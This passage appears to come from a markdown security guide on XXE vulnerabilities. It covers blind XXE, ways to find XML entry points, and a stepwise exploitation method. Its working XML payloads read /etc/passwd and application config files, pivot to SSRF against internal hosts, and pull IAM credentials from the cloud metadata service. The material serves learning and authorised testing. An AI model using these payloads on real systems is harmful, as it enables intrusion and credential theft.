   - **Blind XXE**
    - Application processes XML but doesn't return entity values in responses
    - Detection requires out-of-band techniques or error-based approaches
    - More challenging but still exploitable

- **Finding and exploiting XXE vulnerabilities**
  
  - **Identifying potential XXE entry points**
    - Obvious XML data in requests/responses
    - Content-Type headers with XML-related values:
      - `application/xml`
      - `text/xml`
      - `application/soap+xml`
    - Functions with "xml" in their name
    - File upload features accepting XML formats (SVG, DOCX, etc.)
    - Legacy systems or SOAP web services
    - APIs with XML parsing capabilities
  
  - **Basic XXE exploitation**
    - **Step 1: Detect if XML parsing is vulnerable**
      - Test with a simple external entity:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <root><data>&xxe;</data></root>
        ```
      - Try different data nodes for entity insertion
      - Look for file content in responses
    
    - **Step 2: Explore filesystem access**
      - Read sensitive files:
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        ```
      - Access application-specific files:
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/www/html/config.php"> ]>
        ```
      - Read base64-encoded binary files:
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
        ```
    
    - **Step 3: Leverage for SSRF**
      - Access internal services:
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-service:8080/api"> ]>
        ```
      - Target cloud metadata services:
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
        ```
      - Scan internal networks:
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.1/"> ]>
        ```
